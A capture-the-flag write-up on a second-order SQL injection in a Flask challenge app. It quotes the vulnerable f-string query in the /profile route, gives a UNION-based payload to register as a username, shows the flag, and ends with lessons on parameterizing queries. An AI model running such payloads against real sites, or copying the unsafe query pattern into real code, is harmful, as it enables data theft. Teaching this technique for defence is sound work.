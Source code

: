 # 🏴 MetaCTF Writeup: Second-Order SQL Injection  
**Challenge:** Web – Source Code Provided  
**Flag:** `MetaCTF{Ill_h4v3_7h47_s3c0nd_0rd3r_0f_SQLi_pl3453}`

---

## 🔍 Initial Recon

The challenge provided:
- A Flask web application with routes: `/register`, `/login`, `/profile`
- SQL schema via `init.db`
- Source code showed login and registration used **parameterized queries**

---

## 👀 Code Review

The login and registration were protected against SQL injection:

```python
cursor.execute("INSERT INTO users (username, password, salt) VALUES (%s, %s, %s)", ...)
cursor.execute("SELECT password, salt FROM users WHERE username=%s", ...)
```

But `/profile` had a raw f-string based query using `session['username']`:

```python
query = f"SELECT username, created_at FROM users WHERE username='{username}'"
```

## 🧠 Second-Order Injection Realization

- Direct SQLi via login/register is blocked ✅
    
- But we can **register with a malicious username**, which:
    
    - Gets stored in the DB
        
    - Is loaded into the session on login
        
    - Is later used unsafely in `/profile` 🔥
        

➡️ **Second-order SQL injection** – injection occurs during _read_ rather than _write_.

## 💥 Exploitation

### ✅ Payload for `username` field during registration:

```SQL
' UNION SELECT flag, NOW() FROM flags --
```



Steps:

    Register using that as your username

    Login with the same creds

    Visit /profile

The query becomes:

```sql
SELECT username, created_at FROM users WHERE username='' UNION SELECT flag, NOW() FROM flags -- '
```


# Flag:

```text
MetaCTF{Ill_h4v3_7h47_s3c0nd_0rd3r_0f_SQLi_pl3453}
```

## 🔐 Lessons Learned

- **Second-order SQLi** happens when data is saved _safe_ but used _unsafely later_
    
- Always **parameterize queries**, even when using session values
    
- Don’t trust input _even if it came from your own database_
    